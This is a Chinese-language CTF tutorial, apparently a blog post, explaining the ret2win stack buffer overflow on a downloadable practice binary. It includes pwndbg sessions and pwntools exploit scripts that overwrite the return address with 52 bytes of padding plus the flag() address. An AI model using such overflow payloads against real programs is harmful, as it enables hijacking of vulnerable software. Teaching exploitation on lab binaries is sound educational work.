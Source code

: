 ```yaml
---
title: 'ret2win'
date: '2023-08-07'
lastmod: '2023-08-30'
tags: ['PWN', 'Stack']
draft: false
summary: '最基本的二进制漏洞利用'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

**ret2win** 中有一个 `win()` 函数（或等效函数）；一旦你成功地将执行重定向到那里，你就完成了挑战。

为了实现这一点，我们必须覆盖 EIP，但覆盖成我们想要的特定值。

为此，我们需要知道：

- 直到我们开始覆盖返回地址（EIP）为止的 `溢出 Padding`
- 我们想要将 EIP 覆盖成什么值

<Warning>
  当我说「覆盖 EIP」时，我的意思是覆盖压入到 EIP 中的已保存的返回地址。EIP 寄存器 并不位于栈上，因此不会被直接覆盖。
</Warning>

<Download name="ret2win.zip" href="/static/assets/ret2win.zip" type="Binary" />

## 0x01 计算溢出 Padding

这可以通过简单的试验和错误找到。我们可以发送可变数量的字符，将 `Segmentation Fault` 消息和 pwndbg 结合使用，来判断我们何时覆盖了 EIP 。有一种比简单的暴力破解更好的方法：[德布鲁因（De Bruijn）序列](https://www.cubeyond.net/de-bruijn-sequences/)，为了方便起见，现在我们直接使用已经计算出的溢出 Padding。

<Note>
  除了覆盖 EIP 之外，还可能会因其他原因而出现分段错误。使用调试器确保 `溢出 Padding` 正确。
</Note>

这里的溢出 Padding 为 52 字节的偏移量。

## 0x02 确定 flag() 函数地址

现在我们需要在二进制文件中找到 `flag()` 函数的地址，这很简单：

```
$ pwndbg vuln
$ i fun
[...]
0x080491c3  flag
[...]
```

<Note>
  `i fun` 代表 **i**nfo **f**unction，可以列出分析中发现的函数。
</Note>

可以看到这里的 `flag()` 函数位于 `0x080491c3`。

## 0x03 编写地址

最后一个难题是弄清楚如何发送我们想要的地址。在 [二进制漏洞利用简介](https://www.cubeyond.net/stack-introduction/)中，我们发送的 `A` 变成了 `0x41` —— 这是 `A` 的 `ASCII 码`。所以解决方案很简单——我们只要找到 `ASCII` 码为 `0x08`、`0x04`、`0x91` 和 `0xc3` 的字符即可。

这比你想象的要简单得多，因为我们可以在 Python 中将它们指定为十六进制。

```python showLineNumbers
address = '\x08\x04\x91\xc3'
```

这使得事情变得容易得多。

<Tip>
  使用 `xxd` 可以以二进制或十六进制显示文件的内容：

  $ echo '\x41\x41\x41\x41' | xxd<br />
  00000000: 4141 4141 0a        AAAA.

  $ echo 'AAAA' | xxd<br />
  00000000: 4141 4141 0a        AAAA.
</Tip>

## 0x04 编写漏洞利用脚本

现在我们知道了溢出 Padding 和想要覆盖的值，我们可以使用 [pwntools](https://github.com/Gallopsled/pwntools) 与二进制文件交互，编写漏洞利用脚本。

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

# 创建一个新进程
p = process('./vuln')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

# 输出「Exploited!」字符串则说明我们成功了
p.sendline(payload)

p.interactive()
```

如果你直接运行上面的脚本，就会发现一个小问题：它没有输出 `Exploited`。为什么？我们可以用调试器来检查一下。添加 hook `pwndbg` 的代码，以及 `pause()`，以便我们可以在想发送 `payload` 的时候发送 `payload` 。

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.terminal = ['alacritty', '-e']

p = process('./vuln')

# 下面这条指令可以在启动 pwndbg 后自动下断点
# 为了调试程序的问题，我们在 `unsafe` 的 ret 指令返回时设断点
gdb.attach(p, 'b *0x080491aa')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

pause()
p.sendline(payload)

p.interactive()
```

现在让我们使用 `python exp.py` 运行该脚本，它将自动打开一个 `pwndbg` 窗口：

让我们在 `unsafe()` 返回时中断并读取返回地址的值：

```
$ disass unsafe
$ c

<< press any button on the exploit terminal interface >>

$ x/20wx $esp
0xffffd7dc:	0xc3910408
[...]
```

`0xc3910408`，看起来熟悉吗？这是我们试图发送的地址，只不过字节顺序被反转了，而这种反转的原因是 [字节顺序](https://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F) 使用大端序的系统将最高有效字节（具有最大值的字节）存储在最小的内存地址处，这就是我们发送它们的方式。使用小端序的系统的做法恰恰相反，这是有 [原因](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format) 的，并且我们遇到的大多数二进制文件都是小端序的。就我们而言，只要知道字节在使用小端序的可执行文件中 *payload 以相反的顺序存储* 就可以了。

## 0x05 确定字节顺序

`pwntools` 附带了一个名为 `checksec` 的工具，用于二进制分析。我们可以直接在 `pwndbg` 中使用这条指令。

```
$ checksec
[...]
Arch:     i386-32-little
[...]
```

因此可以确定，我们的程序是 32-bit 小端序的。

## 0x06 反转字节顺序

解决方法很简单：反转字节序

```python showLineNumbers
payload += '\x08\x04\x91\xc3'[::-1]
```

如果你现在运行它，它将成功输出 `Exploited!`：

```
$ python exp.py
[+] Starting local process './vuln' argv=[b'./vuln'] : pid 9645
[DEBUG] Sent 0x39 bytes:
[...]
[*] Switching to interactive mode
[DEBUG] Received 0x1b bytes:
[...]
Overflow me
Exploited!!!!!
```

我们已经成功改变了程序的执行流程，调用了 `flag()` 函数！

## 0x07 Pwntools 和 字节顺序

毫不奇怪，你并不是第一个想到「能否使字节顺序书写变得更简单」的人。幸运的是，`pwntools` 有一个内置的 `p32()` 函数可供使用！

```python showLineNumbers
payload += '\x08\x04\x91\xc3'[::-1]
```

改为：

```python showLineNumbers
payload += p32(0x080491c3)
```

这样就简单多了。唯一需要注意的是它返回字节而不是字符串，因此你必须将溢出 Padding 设置为字节字符串：

```python showLineNumbers
payload = b'A' * 52  # 注意 "b"
```

否则你会得到一个这样的报错：

```
TypeError: can only concatenate str (not "bytes") to str
```

## 0x08 最终的 Exploit 脚本

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

p = process('./vuln')

payload = b'A' * 52
payload += p32(0x080491c3)

p.sendline(payload)

p.interactive()
```

